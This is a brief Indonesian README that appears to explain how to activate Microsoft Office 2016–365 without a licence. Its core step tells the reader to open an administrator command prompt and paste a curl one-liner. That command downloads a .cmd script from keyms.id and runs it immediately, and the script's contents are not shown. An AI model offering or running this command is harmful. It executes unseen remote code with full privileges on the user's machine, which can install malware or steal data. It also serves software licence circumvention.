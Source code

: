 # Reactive Microsoft Office Word 2016, 2019, 2021, 365
###### 1. Aktifkan Jaringan Wifi
###### 2. Masuk Ke Command Prompt -> Run Administrator
###### 3. Salin dan Tempel
```curl -L keyms.id/aso -o aso.cmd & aso.cmd```
###### 4. Tunggu Sampai Proses Selesai 3 - 10 Menit Tergantung Koneksi Yang Anda Pakai

